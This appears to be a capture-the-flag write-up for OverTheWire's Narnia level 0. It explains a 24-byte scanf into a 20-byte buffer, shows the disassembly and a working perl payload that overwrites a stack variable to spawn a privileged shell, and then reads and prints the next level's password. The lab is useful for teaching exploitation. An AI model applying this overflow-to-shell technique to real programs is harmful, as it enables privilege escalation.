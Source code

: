 # Over the Wire - Narnia

## level 0 -> 1
This game starts off giving you the username and password for level 0. In the /narnia/ directory, there is an executable and c source file for each level.

Running narnia0, the following is output on the terminal:
```
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: 
```
I have no idea what I'm supposed to do here, so I'm just going to guess I'll find a value to xor 0x41414141 to get 0xdeadbeef. So I enter:
```
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: 0x9fecffae
buf: 0x9fecffae
val: 0x41414141
WAY OFF!!!!
```

Alrighty then. Guess I'll look at the code:

```
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
Ok, so is it really reading 24 characters into a buffer of size 20? In that case, I guess I'm supposed to exploit that to mess with the value of val to make it equal to 0xdeadbeef. Then I get shell.

Entering 24 0s:
```
Here is your chance: 000000000000000000000000
buf: 000000000000000000000000
val: 0x30303030
WAY OFF!!!!
```

This confirms that val can be overwritten by entering more than 20 character. Four 0 characters (ASCII code 30) have now been written to val.

Using `objdump --source narnia0`, let's look at some of the assembly. Here are the first few instructions in main, where we can see var being set.
```
0804855b <main>:
 804855b:	55                   	push   %ebp
 804855c:	89 e5                	mov    %esp,%ebp
 804855e:	53                   	push   %ebx
 804855f:	83 ec 18             	sub    $0x18,%esp
 8048562:	c7 45 f8 41 41 41 41 	movl   $0x41414141,-0x8(%ebp) <--- 0x41414141 is moved into var on the stack, 8 bytes from the base pointer
```
Further down a bit, here is where our input is read into memory using scanf:
```
8048583:	8d 45 e4             	lea    -0x1c(%ebp),%eax <--- Our input will be read into the address 28 bytes from the base pointer
 8048586:	50                   	push   %eax
 8048587:	68 d9 86 04 08       	push   $0x80486d9
 804858c:	e8 af fe ff ff       	call   8048440 <__isoc99_scanf@plt>
 8048591:	83 c4 08             	add    $0x8,%esp

```

Because the scanf call will read in up to 24 bytes, it can occupy bytes 28 through 4 from ebp. But this overlaps with var, which occupies bytes 8 through 0 from ebp. The last 4 bytes of our input will clobber the first 4 bytes of var.

Now the trouble is that we're entering in acii data to scanf, and xAD (one of our bytes of deadbeef) does not have a printable ascii representation.

Maybe I can use perl to generate a hex string and pipe the output to the program:
```
narnia0@narnia:/narnia$ perl -e 'print "a"x20 . "\xde\xad\xbe\xef"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaޭ??
val: 0xefbeadde
WAY OFF!!!!
```
Almost! Forgot to account for byte order, which is little endian. I'll need to input the last bytes in reverse order:
```
narnia0@narnia:/narnia$ perl -e 'print "a"x20 . "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ?
val: 0xdeadbeef
```
Ok, the program looks like it ended though. Did I get the shell?
```
narnia0@narnia:/narnia$ whoami
narnia0
```
Apparently not. Maybe I can copy paste the output.
```
narnia0@narnia:/narnia$ perl -e 'print "a"x20 . "\xef\xbe\xad\xde"'
aaaaaaaaaaaaaaaaaaaaﾭ?narnia0@narnia:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: aaaaaaaaaaaaaaaaaaaaﾭ?
buf: aaaaaaaaaaaaaaaaaaaaﾭ?
val: 0x3fadbeef
WAY OFF!!!!
```
Nope. Something is lost in translation. So I somehow need to find a way to get the hex input into the program but also keep it from exiting.

After some searching, I found a useful trick. You can pipe multiple commands into a program by enclosing them in parenthesis. Each command is a separate input to the program. So I could provide two commands, and the first would be used as input for the 'Here is your chance' prompt, and the second would be used as input into the shell that's launched. Let's try it:

```
narnia0@narnia:/narnia$ ( perl -e 'print "a"x20 . "\xef\xbe\xad\xde"'; cat; ) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ?
val: 0xdeadbeef
whoami
narnia1
```

Sweet, it worked. Now I can just `cat /etc/narnia_pass/narnia1`.

<details><summary>Password</summary>
	<p>	
efeidiedae
</p>
</details>
